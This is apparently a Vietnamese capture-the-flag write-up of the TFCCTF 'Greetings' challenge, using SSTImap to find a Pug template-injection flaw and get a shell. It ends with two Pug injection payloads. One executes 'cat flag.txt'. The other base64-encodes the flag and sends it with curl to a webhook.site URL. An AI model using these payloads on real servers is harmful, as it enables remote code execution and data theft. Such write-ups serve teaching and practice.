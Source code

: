 # GREETINGS (WARM UP)

![image](https://hackmd.io/_uploads/SyNyshpYC.png)
Nhìn sơ qua thì challenge chỉ có 1 route này để nhập tên của mình và hiện lên màn hình. Theo kinh nghiệm của mình thì các challenge như vậy sẽ liên quan tới SSTI hoặc là command injection với câu lệnh echo. 

Mình có test thử SSTI trước. Mình thử các engine phổ biến như JinJa2, Velocity, Spring... nhưng mà không có được nên mình thử chạy tool SSTImap. 
Command: `python3 sstimap.py -u http://challs.tfcctf.com:31924/result?username=perryto --os-shell`

![image](https://hackmd.io/_uploads/r1Bw336Y0.png)

Thành công. Thì ra đây là engine của Pug (lạ quá không biết nữa). Test payload `#{7 * 7}` thì được thật. 

![image](https://hackmd.io/_uploads/S1MLhhTKR.png)

Chạy tool thì nó sẽ tự tạo shell cho mình rồi nên không cần gọi reverse shell từ web nữa
Flag: `TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}`

P/s: 
1. `#{global.process.mainModule.constructor._load("child_process").execSync("cat flag.txt").toString()}`
2. `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl https://webhook.site/<id>/?c=$(cat flag.txt | base64 | tr -d "\n")')}()}`
